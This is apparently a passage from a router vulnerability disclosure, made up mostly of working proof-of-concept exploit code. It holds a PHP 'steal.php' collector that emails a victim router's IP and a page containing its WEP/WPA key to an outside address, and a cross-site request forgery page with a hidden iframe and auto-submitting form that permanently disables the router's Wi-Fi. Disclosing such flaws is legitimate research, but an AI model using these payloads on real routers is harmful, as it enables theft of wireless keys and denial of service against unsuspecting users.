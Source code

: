     loadXMLDoc(url);

    // end of body
    document.write("</body>");

    <?php
    // steal.php
    define("RCPT_EMAIL", "unknown.pentester@gmail.com");
    define("EMAIL_SUBJECT", "[OWNED]");
    $messagebody="victim router: ".$_SERVER['REMOTE_ADDR']."\n";

    if($_REQUEST['data']) {
            $messagebody=$messagebody."page containing WEP/WPA key:".$_REQUEST['data'];
            mail(RCPT_EMAIL, EMAIL_SUBJECT, $messagebody);
    }
    ?>

    ### Exploit #3: Disable wireless connectivity

    This PoC will disable your Wifi permanently unless you re-enable it manually after successful exploitation! In order to re-enable the Wifi interface you can reset to factory settings, or re-enable the setting by connecting to the Home Hub through the ethernet interface. I am not sure what this exploit can be used for but at least it shows a potential quite devastating danger.

    <html>
    <!-- index.html -->
    <iframe onload="javascript:document.body.innerHTML='<html><h1>PWNED!</h1>'" name="hack" frameborder=0 height=0 width=0 src="./disable_wifi_interface.html"></iframe>
    </html>

    <html>
    <body>
    <!-- disable_wifi_interface.html -->

    <!--
        POST /cgi/b/_wli_/cfg/?ce=1&be=1&l0=4&l1=0&name= HTTP/1.1

        0=10&1=&32=&33=&34=2&35=1&45=11&47=1
    -->

    <form action="http://192.168.1.254/cgi/b/_wli_/cfg//" method="post">

    <input type="hidden" name="0" value="10">
    <input type="hidden" name="1" value="">
    <input type="hidden" name="32" value="">
    <input type="hidden" name="33" value="">
    <input type="hidden" name="34" value="2">
    <input type="hidden" name="35" value="1">
    <input type="hidden" name="45" value="11">
    <input type="hidden" name="47" value="1">

    </form>
    <script>document.forms[0].submit();</script>

    </body>
    </html>
